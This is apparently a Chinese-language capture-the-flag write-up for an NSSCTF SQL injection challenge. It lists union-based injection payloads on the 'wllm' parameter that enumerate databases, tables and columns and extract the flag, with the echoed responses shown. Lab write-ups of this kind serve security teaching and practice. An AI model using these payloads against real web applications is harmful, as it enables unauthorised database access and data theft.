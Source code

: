 #SQL 注入

标题提示参数是`wllm`

```url
?wllm=2' union select 1,2,3--+

?wllm=2' union select 1,database(),3--+

?wllm=2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='test_db'--+

?wllm=2' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="test_tb"--+

?wllm=2' union select 1,flag,3 from test_tb--+
```

sqlmap 跑也是可以的

title 指出参数是 wllm

```sql
-1' union select 1,2,3%23
```

回显：
Your Login name:2  
Your Password:3

```sql
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```

回显：
Your Login name:2  
Your Password:information_schema,mysql,performance_schema,test,test_db

```sql
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'%23
```

回显：
Your Login name:2  
Your Password:test_tb,users

```sql
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'%23
```

回显：
Your Login name:2  
Your Password:id,flag

```sql
-1' union select 1,2,flag from test_tb%23
```

Your Login name:2  
Your Password:NSSCTF{50e86d3f-87b2-4026-8bbe-690783fd7b27}
